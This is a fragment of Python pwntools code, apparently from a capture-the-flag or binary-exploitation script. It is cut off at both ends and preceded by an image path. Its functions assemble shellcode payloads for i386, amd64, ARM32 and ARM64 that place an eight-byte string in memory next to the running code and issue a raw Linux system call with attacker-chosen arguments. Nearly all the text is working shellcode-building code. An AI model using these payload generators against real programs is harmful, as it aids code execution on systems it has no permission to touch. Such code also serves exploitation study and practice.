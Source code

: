 ```python
    mov ecx, ecx
    mov ebx, {arg1}
    mov eax, {sys_num}
    int 0x80
  '''.format(arg1=arg1, sys_num=sys_num, p1=p1, p2=p2), arch = 'i386', os = 'linux')

  print disasm(payload, arch = 'i386', os = 'linux')

  return payload

def get_amd64(sys_num, arg1, arg2):
  p = '0x'+pack_str(arg2, 8)

  payload = asm('''
    call start
  start:
    pop rax  
    mov rbx, {p}
    add rax, 0x5000
    mov rcx, rax
    mov [rax], rbx

    mov rsi, rcx
    mov rdi, {arg1}
    mov rax, {sys_num}
    syscall
  '''.format(arg1=arg1, sys_num=sys_num, p=p), arch = 'amd64', os = 'linux')

  print disasm(payload, arch = 'amd64', os = 'linux')

  return payload

def get_arm32(sys_num, arg1, arg2):
  p1 = int(pack_str(arg2[:4]),16)
  p2 = int(pack_str(arg2[4:]),16)

  payload = asm('''
    add r0, pc, #0x5000
    mov r3, r0

    ldr r1, =#{p1}
    str r1, [r0]
    
    add r0, r0, #4
    ldr r1, =#{p2}
    str r1, [r0]


    mov r1, r3
    mov r0, {arg1}
    mov r7, {sys_num}
    SWI 0
  '''.format(arg1=arg1, sys_num=sys_num, p1=p1, p2=p2), arch = 'arm', os = 'linux')

  print disasm(payload, arch = 'arm', os = 'linux')

  return payload

def get_arm64(sys_num, arg1, arg2):
  p = int(pack_str(arg2, 8),16)

  payload = asm('''
    adr x0, .
```